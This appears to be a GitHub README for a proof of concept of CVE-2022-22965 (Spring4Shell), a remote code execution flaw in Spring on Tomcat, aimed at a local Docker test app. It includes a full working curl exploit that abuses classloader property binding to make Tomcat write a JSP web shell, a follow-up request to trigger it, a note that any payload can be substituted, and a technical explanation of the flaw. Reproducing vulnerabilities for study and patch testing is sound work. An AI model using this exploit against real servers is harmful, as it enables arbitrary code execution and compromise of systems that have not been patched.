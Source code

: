 # CVE-2022-22965 PoC

Minimal example of how to reproduce CVE-2022-22965 Spring RCE.

## Run using docker compose

1. Build the application using Docker compose
    ```shell
    docker-compose up --build
    ```
2. To test the app browse to [http://localhost:8080/handling-form-submission-complete/greeting](http://localhost:8080/handling-form-submission-complete/greeting)
3. Run the exploit
    ```shell
    ./exploits/run.sh
    ```
4. The exploit is going to create `rce.jsp` file in  `webapps/handling-form-submission-complete` on the web server.
5.  Use the exploit
Browse to [http://localhost:8080/handling-form-submission-complete/rce.jsp](http://localhost:8080/handling-form-submission-complete/rce.jsp)


## Alternative way (debug oriented)

1. Run the Tomcat server in docker
    ```shell
    docker run -p 8888:8080 --rm --interactive --tty --name vm1 tomcat:9.0
    ```
    _Add `-p 5005:5005 -e "JAVA_OPTS=-Xdebug -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"` if you want to debug remotely._
2. Build the project
    ```shell
    ./mvnw install
    ```
3. Deploy the app
    ```shell
    docker cp target/handling-form-submission-complete.war vm1:/usr/local/tomcat/webapps
    ```
4. Write the exploit
    ```shell
    curl -X POST \
      -H "pre:<%" \
      -H "post:;%>" \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{pre}iSystem.out.println(123)%{post}i' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/handling-form-submission-complete' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.prefix=rce' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=' \
      http://localhost:8888/handling-form-submission-complete/greeting
    ```
    The exploit is going to create `rce.jsp` file in  `webapps/handling-form-submission-complete` on the web server.

5. Use the exploit
    ```shell
    curl http://localhost:8888/handling-form-submission-complete/rce.jsp
    ```
    Now you'll see `123` in the container's terminal. Replace `System.out.println(123)` with your payload to execute arbitrary code.

## Short technical explanation

1. Spring knows how to bind form fields to Java object. In our example `GreetingController` handle POST requests on `/greeting` endpoint and binds form fields to the `Greeting` object.
2. It also supports binding of nested fields (e.g. `user.info.firstname`). See the [AbstractNestablePropertyAccessor](https://github.com/spring-projects/spring-framework/blob/8baf404893037951ac29393a41d40af4fa11775b/spring-beans/src/main/java/org/springframework/beans/AbstractNestablePropertyAccessor.java#L622) for references.
3. In our example `Greeting` class has two fields `id` and `content`, but actually it also has a reference to the Class object. We can use `class.module.classLoader` as a form data key to access the classloader.
4. In the [fix](https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15) we can see that the main change was to restrict access to most of the Class object properties, including the `module` one.
5. This behaviour allows us to set public properties of classes accessible via nested reference chain from the `Greeting` class. Nothing else. In most of the cases it is not even dangerous because no classes with public fields are available even from `class.module.classLoader.`.
6. It becomes a problem on the Tomcat server because the classloader there has [`getResources` accessor](https://tomcat.apache.org/tomcat-8.0-doc/api/org/apache/catalina/loader/WebappClassLoaderBase.html#getResources()) which allows us to continue the reference chain and access one of the instances of [the `AccessLogValve` class](https://tomcat.apache.org/tomcat-9.0-doc/api/org/apache/catalina/valves/AccessLogValve.html).
7. This class is meant to write logs. We change some properties to make it write files with the name and content of our choice. We have arbitrary file write at this point.
8. We create `jsp` file with in the root of the application folder with the malicious payload. As far as `jsp` are automatically executed by the Tomcat we can navigate to it in the browser and eventually execute the payload. Now it is RCE.

## Conditions

The exploit works only on Tomcat because it has special classloader. Although the similar reference chain may exist on other web application servers as well. It is not simply discovered yet.

The exploit requires Java 9 or above because `module` property was added in Java 9.

## References

- The server part is based on the https://gist.github.com/esell/c9731a7e2c5404af7716a6810dc33e1a step-by-step manual.
- The exploit part is based on https://github.com/BobTheShoplifter/Spring4Shell-POC/blob/0c557e85ba903c7ad6f50c0306f6c8271736c35e/poc.py script.
- Snyk advisory about the vulnerability is available here: https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-2436751 
